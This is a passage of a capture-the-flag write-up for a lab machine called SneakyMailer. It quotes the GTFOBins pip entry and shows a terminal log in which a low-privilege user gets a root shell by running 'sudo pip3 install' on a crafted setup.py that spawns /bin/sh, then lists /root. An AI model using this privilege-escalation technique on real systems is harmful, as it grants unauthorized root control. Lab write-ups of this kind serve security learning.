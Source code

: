 A search for ways to privilege escalation with sudo and pip3 led to [https://gtfobins.github.io/gtfobins/pip/](https://gtfobins.github.io/gtfobins/pip/)

> File write It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```text
It needs an absolute local file path.
```

```text
    export LFILE=/tmp/file_to_save
    TF=$(mktemp -d)
    echo "open('$LFILE','w+').write('DATA')" > $TF/setup.py
    pip install $TF
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User

### Getting a shell

```text
low@sneakymailer:/dev/shm$ TF=$(mktemp -d)
low@sneakymailer:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/dev/shm$ sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.eLbVbsYr88
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
sneakymailer
# cat root.txt  
cat: root.txt: No such file or directory
# ls -la
total 20
drwx------  3 root root 4096 Nov 11 20:49 .
drwxrwxrwt 16 root root 4096 Nov 11 20:49 ..
-rw-r--r--  1 root root  185 Nov 11 20:49 pip-delete-this-directory.txt
drwxr-xr-x  2 root root 4096 Nov 11 20:49 pip-egg-info
-rw-r--r--  1 root root   86 Nov 11 20:49 setup.py
# pwd
/tmp/pip-req-build-2ueqz020
```

I was not in the directory I expected at first...the shell spawned in the tmp directory where the "module" was installed to

### Root.txt

```text
# cd /root
# ls -la
total 44
drwx------  6 root root 4096 Jun 10 04:20 .
drwxr-xr-x 18 root root 4096 May 14 05:30 ..
lrwxrwxrwx  1 root root    9 May 26 22:32 .bash_history -> /dev/null
-rw-r--r--  1 root root  619 May 14 12:57 .bashrc
drwxr-xr-x  3 root root 4096 May 14 15:29 .cache
drwx------  3 root root 4096 Jun 10 04:20 .config
drwx------  3 root root 4096 May 15 13:10 .gnupg
drwxr-xr-x  3 root root 4096 May 14 12:57 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  977 May 14 13:31 .python_history
-rwx------  1 root root   33 Nov 11 01:09 root.txt
```